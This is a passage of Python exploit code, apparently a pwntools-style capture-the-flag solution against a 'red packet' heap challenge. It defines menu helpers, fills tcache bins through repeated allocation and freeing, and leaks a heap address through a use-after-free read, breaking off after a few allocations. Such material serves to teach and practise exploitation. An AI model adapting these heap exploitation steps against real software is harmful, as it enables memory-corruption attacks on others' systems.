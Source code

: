 	
	def add(index,chunk_size_index,value):
	    ru('Your input: ')
	    sl('1')
	    ru('Please input the red packet idx: ')
	    sl(str(index))
	    ru('How much do you want?(1.0x10 2.0xf0 3.0x300 4.0x400): ')
	    sl(str(chunk_size_index))
	    ru('Please input content: ')
	    sl(value)
	
	def free(index):
	    ru('Your input: ')
	    sl('2')
	    ru('Please input the red packet idx: ')
	    sl(str(index))
	
	def edit(index,value):
	    ru('Your input: ')
	    sl('3')
	    ru('Please input the red packet idx: ')
	    sl(str(index))
	    ru('Please input content: ')
	    sl(value)
	
	def show(index):
	    ru('Your input: ')
	    sl('4')
	    ru('Please input the red packet idx: ')
	    sl(str(index))
	
	
	 
	
	#1.0x10 2.0xf0 3.0x300 4.0x400
	for i in range(7):
	    add(15,4,'Chunk_15')
	    free(15)
	
	
	
	for i in range(6):
	    add(14,2,'Chunk_14')
	    free(14)
	
	#dbg()
	
	show(15)
	last_chunk_addr = u64(ru('\x0A').strip('\x0A').ljust(8,'\x00'))
	lg('last_chunk_addr',last_chunk_addr)
	heap_addr = last_chunk_addr - 0x26C0
	lg('heap_addr',heap_addr)
	
	#dbg()
	
	add(1,4,'Chunk_1')
	add(13,3,'Chunk_13')
	